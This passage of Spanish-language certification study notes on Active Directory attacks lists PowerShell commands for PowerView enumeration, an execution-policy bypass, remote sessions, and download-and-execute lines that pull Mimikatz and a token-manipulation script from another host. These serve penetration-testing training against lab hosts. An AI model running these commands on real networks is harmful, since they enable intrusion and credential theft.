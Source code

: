 **Mostar contenido via smb desde la propia PSSesion**

```powershell
ls \\prod.research.SECURITY.local\c$
```

### PERSISTENCE

[](https://github.com/ant0dev/Methodology-eCPPT/blob/main/METODOLOGIA%20ATAQUE%20AD%20%26%20CERTIFICACION%20eCPPTv3.md#persistence)

#### [[SILVER TICKET]]

[](https://github.com/ant0dev/Methodology-eCPPT/blob/main/METODOLOGIA%20ATAQUE%20AD%20%26%20CERTIFICACION%20eCPPTv3.md#silver-ticket)

**Importar Modulo Powerview | Nombre y SID de dominio | FQDN del DC**

```powershell
# Permisos bypass powershell
powershell -ep bypass

# Importamos el moudulo
. .\PowerView.ps1

# Obtener el nombre de dominio y el FQDN del DC
Get-Domain

# Obtener SID de nuestro dominio
Get-DomainSID
```

**Comprobar los permisos de administración del usuario actual en otros dominios**

```powershell
Find-LocalAdminAccess
```

**Abrir una Powershell Session en el sistema remoto al cual tenemos acceso como Admin**

```powershell
# Abrir sesion
EnterPSSession seclogs.research.SECURITY.local

# Analizar permisos (debemos de tener todos los permisos)
whoami
whoami /priv
```

**Pasamos herramientas Mimikatz/TokenManipulation de un sistema a otro mediante un servidor de subida de archivos**

```powershell
cd \
iex (New-Object Net.WebClient).DownloadString('http://10.0.5.101/Invoke-Mimikatz.ps1')
iex (New-Object Net.WebClient).DownloadString('http://10.0.5.101/Invoke-TokenManipulation.ps1')
```
